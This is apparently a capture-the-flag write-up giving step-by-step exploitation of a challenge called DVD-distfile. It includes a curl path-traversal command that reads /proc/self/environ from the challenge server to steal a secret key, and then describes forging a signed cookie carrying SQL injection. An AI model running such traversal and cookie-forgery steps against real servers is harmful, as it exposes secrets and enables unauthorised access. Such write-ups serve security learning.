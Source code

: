 # DVD-distfile exploit step by step
## 1. Use the serveMux vulnerbalitiy to get secret
Enter command to store the remote environ variables to local:

```curl -v -X CONNECT --path-as-is http://dvd.chal.h4ck3r.quest:10001/static/../../../proc/self/environ >> output.txt```

Check the secret key value:

```cat output.txt```

## 2. Visit exploit API to generate custom signed cookie
Move to the distfile repo and start the app.

```docker-compose up --build```

Then, go to `http://localhost:10001/exploit` to generate custom signed cookie that have **sql injection**.
Open dev tools and copy the generated cookie.

## 3. Paste the custom cookie to real page
Go to `http://dvd.chal.h4ck3r.quest:10001/` and open dev tools, paste the cookie generated from last step and restart the page.

Finally, this will show the FLAG.